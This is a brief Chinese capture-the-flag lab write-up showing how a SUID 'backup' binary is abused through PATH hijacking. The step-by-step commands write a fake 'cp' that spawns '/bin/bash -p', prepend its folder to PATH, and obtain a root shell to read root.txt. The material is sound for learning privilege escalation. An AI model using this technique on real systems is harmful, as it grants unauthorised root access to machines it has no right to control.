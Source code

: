 secret文件夹下还有有个backup文件并且带suid:

    -rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup

直接cat，发现是可执行文件

直接执行：

    archangel@ubuntu:~/secret$ ./backup
    ./backup
    cp: cannot stat '/home/user/archangel/myfiles/*': No such file or directory

该程序会将home/user/archangel/myfiles/下进行复制

但事实上我们根本没有权限在/home下创建文件夹

所以我们可以篡改环境变量来执行我们的恶意程序以达到目的

    touch ./cp

写入以下内容：

    archangel@ubuntu:~/secret$ echo '#!/bin/bash' > ./cp
    archangel@ubuntu:~/secret$ echo "/bin/bash -p" >> ./cp

记得修改权限使其可执行：

    archangel@ubuntu:~/secret$ chmod 777 ./cp

修改环境变量：

    archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:$PATH

再次执行backup，成功getroot

    root@ubuntu:~/secret# id
    id
    uid=0(root) gid=0(root) groups=0(root),1001(archangel)
    root@ubuntu:~/secret# cat /root/root.txt
